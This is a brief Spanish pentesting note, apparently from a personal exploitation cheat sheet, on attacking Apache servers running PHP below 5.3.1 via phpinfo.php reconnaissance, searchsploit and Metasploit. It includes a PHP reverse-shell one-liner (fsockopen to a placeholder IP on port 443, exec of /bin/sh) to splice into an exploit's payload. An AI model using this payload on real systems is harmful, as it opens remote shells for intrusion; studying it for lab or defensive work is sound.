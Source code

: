 # Explotación  

Tags: #Linux #Enumeracion #Escaneo #PHP

## Apache httpd - PHP

```bash 
1. Mirar el archivo 'phpinfo.php' en la web
2. Buscar exploits para las versiones de PHP menores a '5.3.1' con 'Searchsplot php cgi' o 'Metasploit'
	1. Si encontramos uno con python, podemos modificar 'pwn_code' entre '<?php ?>' para colocar un '$sock=fsockopen("IP",443);exec("/bin/sh -i <&4 >&4 2>&4");' y asi obtener una reverse shell
```